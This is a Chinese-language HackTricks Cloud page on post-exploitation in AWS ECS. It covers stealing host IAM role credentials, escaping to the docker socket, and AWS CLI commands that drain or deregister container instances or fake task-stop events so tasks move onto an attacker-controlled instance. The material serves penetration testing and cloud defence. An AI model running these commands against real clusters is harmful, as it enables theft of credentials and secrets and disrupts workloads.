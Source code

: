 # AWS - ECS后渗透

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks衣物**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## ECS

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### 主机IAM角色

在ECS中，**IAM角色可以分配给容器内运行的任务**。**如果**任务在**EC2**实例内运行，则**EC2实例**将附加**另一个IAM**角色。\
这意味着，如果您设法**入侵**ECS实例，您可能会**获取与ECR和EC2实例相关联的IAM角色**。有关如何获取这些凭据的更多信息，请参阅：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf" %}

{% hint style="danger" %}
请注意，如果EC2实例强制执行IMDSv2，[**根据文档**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html)，**PUT请求的响应**将具有**1个跳数限制**，因此无法从EC2实例内的容器访问EC2元数据。
{% endhint %}

### 提权到节点以窃取其他容器的凭据和机密信息

而且，EC2使用docker来运行ECS任务，因此如果您可以逃逸到节点或**访问docker套接字**，您可以**检查**正在运行的**其他容器**，甚至**进入其中**并**窃取它们的IAM角色**。

#### 让容器在当前主机上运行

此外，**EC2实例角色**通常具有足够的**权限**来**更新作为集群内节点使用的EC2实例的容器实例状态**。攻击者可以修改实例的状态为DRAINING，然后ECS将**从中删除所有任务**，而作为**REPLICA**运行的任务将在不同的实例中运行，潜在地在**攻击者的实例**中，因此他可以从容器内窃取它们的IAM角色和潜在的敏感信息。
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
可以通过**从集群中注销EC2实例**来执行相同的技术。这可能不太隐蔽，但它将**强制任务在其他实例上运行**：
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
一种最后的技术是通过指示ECS任务或容器已停止来强制重新执行任务。有三个潜在的API可以实现这一点：
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### 从 ECR 容器中窃取敏感信息

EC2 实例可能还具有 `ecr:GetAuthorizationToken` 权限，允许其**下载镜像**（您可以在其中搜索敏感信息）。

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的**公司广告**，或者如果您想访问**PEASS 的最新版本或下载 PDF 格式的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>
